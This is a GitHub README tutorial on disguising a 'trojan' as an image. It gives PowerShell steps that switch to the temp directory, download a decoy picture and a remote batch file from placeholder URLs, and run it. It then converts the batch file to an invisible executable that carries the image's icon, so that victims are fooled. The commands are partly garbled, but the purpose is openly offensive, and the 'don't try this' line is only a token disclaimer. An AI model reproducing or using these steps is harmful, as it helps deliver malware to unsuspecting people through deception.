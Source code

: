 <h1 align="center">Welcome to Repositorie of how to add Trojan in backdoor👋</h1>
<p>
<img src="https://img.shields.io/badge/version-0.1-blue.svg?cacheSeconds=2592000" />
</p>

[![Bat-To-Exe](https://raw.githubusercontent.com/AnandKatariya/Kali-Linux-Jupyter-Notebook-Installation/a9eea7518be7dadfdc60ac934d98e59735590209/Image/made-with-kali-linux.svg)](https://www.python.org/)


### 🏠 [Homepage](https://github.com/AnandKatariya?tab=repositories)

<p align =center >
  <img src="https://media.tenor.com/-r6mKisZ_ycAAAAM/tokusatsu-ultraman.gif" height='288' width='512' />
</p>

<h2 align="center"> Dont try this at Home, School,Or any other public place!!! </h2>
<br>

<h1 align="center"> Introduction to Trojan</h1>

<p>
A Trojan Horse Virus is a type of malware that downloads onto a computer disguised as a legitimate program. The delivery method typically sees an attacker use social engineering to hide malicious code within legitimate software to try and gain users' system access with their software.
  <P/>

  <h2> If you don't know how to make trojan you need to see my previous repository in that I have explain fully how to make trojan then after that you need to use this repository to add trojan at backdoor. </h2>

### 🏠 [How to make trojan ](https://github.com/AnandKatariya/Create-Trojan)

## But all apart in this we will learn how to add trojan in backdoor from powershell.

<h2>Go to browser and select the image which you want to send to target.</h2><br>
<h2>Then open powershell and direct the powershell to desktop.</h2><br>

## Direct to desktop 
```sh
cd .\Desktop\
```

Then after this it will be redirected to desktop and after that paste the command but before pasting just edit website.com to ehich image you want to send to target paste that URL.

## Downlode you image
```sh
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
```
Paste this into your powershell and you will able to downlode the image you can see it on desktop, But if you need to add trojan into backdoor you need to add som new command to codeline.

<h2> If you have trojan file add it but if you dont have you need to create it, If you dont know to to create it just check my last repo.. and you will learn. After creating the trojan you need to save it as .bat file.  </h2>
<br>
<h3> Now here we will place the trojan file inside the image so we need to add the command in powershell is,</h3>
  
  ## Add trojan in image
```sh
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
Invoke  WebRequest 'www.Your_trojan_file.bat' -OutFile Virus.bat
virus.bat
```
<br>
<h3> But this is not the way if you will downlode the virus file on desktop user will know this so we need to go to temp directory. So </h3>

 # To add file in temp
```sh
cd %temp%
Invoke  WebRequest 'https://website.com/file.exe' -OutFile file.exe 
trojan.png
Invoke  WebRequest 'www.Your_trojan_file.bat' -OutFile Virus.bat
virus.bat
```

after this you need to save this and and you need to save this in all file not in text document and after that save as extension as matrix-trojan.bat
you need to save it as .bat it is mandatory. But you will see that file not looking properly it looking like any suspious file so we need to modify it. So we all need to do is 

## Downlode bat to exe converter

[![Bat-To-Exe](https://raw.githubusercontent.com/AnandKatariya/Backdoor-Trojan/16545e42c093f37c828f551632a0067c4cdfce69/logo/bat-to-exe-file.svg)](https://github.com/AnandKatariya/Backdoor-Trojan/blob/main/Bat_To_Exe_Converter_x64.exe)


<h2> After install open the file or drag and drop it in the Bat to Exe converter and run the file then select the icon as the thumnail of the same image but before select the icon go to png to ico converter online and convert the image in ico file and then add it as logo and change the exe format into invisible after this you will convert it and thats it your are done.</h2>

## Author

👤 **Anand Katariya**

* Github: [@AnandKatariya](https://github.com/AnandKatariya)

## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/AnandKatariya/Backdoor-Trojan/issues).

## Show your support

Give a ⭐️ if this project helped you! <br>
</br>
<h1 align='center'>Stay tuned for more updates.</h1>
